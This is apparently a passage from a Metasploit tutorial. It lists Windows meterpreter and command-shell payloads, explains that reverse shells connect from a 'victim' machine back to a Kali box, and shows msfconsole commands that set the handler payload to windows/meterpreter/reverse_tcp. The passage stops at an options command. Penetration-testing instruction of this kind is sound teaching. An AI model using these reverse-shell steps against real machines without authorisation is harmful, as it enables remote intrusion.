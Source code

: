 ```
===================

   Name                                                Disclosure Date  Rank    Description
   ----                                                ---------------  ----    -----------
   ...
   windows/meterpreter/reverse_tcp                                      normal  Windows Meterpreter (Reflective Injection), Reverse TCP Stager
   windows/meterpreter/reverse_tcp_allports                             normal  Windows Meterpreter (Reflective Injection), Reverse All-Port TCP Stager
   windows/meterpreter/reverse_tcp_dns                                  normal  Windows Meterpreter (Reflective Injection), Reverse TCP Stager (DNS)
   windows/meterpreter/reverse_tcp_rc4                                  normal  Windows Meterpreter (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   windows/meterpreter/reverse_tcp_rc4_dns                              normal  Windows Meterpreter (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   windows/meterpreter/reverse_tcp_uuid                                 normal  Windows Meterpreter (Reflective Injection), Reverse TCP Stager with UUID Support
   windows/meterpreter/reverse_winhttp                                  normal  Windows Meterpreter (Reflective Injection), Windows Reverse HTTP Stager (winhttp)
   windows/meterpreter/reverse_winhttps                                 normal  Windows Meterpreter (Reflective Injection), Windows Reverse HTTPS Stager (winhttp)
   ...
   windows/shell/bind_tcp                                               normal  Windows Command Shell, Bind TCP Stager (Windows x86)
   windows/shell/bind_tcp_rc4                                           normal  Windows Command Shell, Bind TCP Stager (RC4 Stage Encryption, Metasm)
   windows/shell/bind_tcp_uuid                                          normal  Windows Command Shell, Bind TCP Stager with UUID Support (Windows x86)
   windows/shell/reverse_ipv6_tcp                                       normal  Windows Command Shell, Reverse TCP Stager (IPv6)
   windows/shell/reverse_nonx_tcp                                       normal  Windows Command Shell, Reverse TCP Stager (No NX or Win7)
   windows/shell/reverse_ord_tcp                                        normal  Windows Command Shell, Reverse Ordinal TCP Stager (No NX or Win7)
   windows/shell/reverse_tcp                                            normal  Windows Command Shell, Reverse TCP Stager
   ...
```
The list above shows a subset of the payloads that can be used with the `handler` module for a windows machine. 

A `shell` payload returns a windows shell on the remote (victim) machine on successful attack. A <a href="https://github.com/rapid7/metasploit-framework/wiki/Meterpreter" target="_blank">`meterpreter`</a> payload, on the other hand, would return a meterpreter session, which is very powerful tool that allows you to do many operations on the remote machine and its network. We will discuss Meterpreter sessions in more details in a future post.

A `reverse_tcp` payload starts a TCP server on the Kali box for the victim machine to connect to. Similary, `reverse_http` and `reverse_https` starts HTTP and HTTPS servers respectively.

## Setting the payload
For our attack, we choose the `windows/meterpreter/reverse_tcp`:
```
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
```
```
PAYLOAD => windows/meterpreter/reverse_tcp
```
Now, let's check the `options` of the selected payload:
```
msf exploit(handler) > options 
```
```
...

```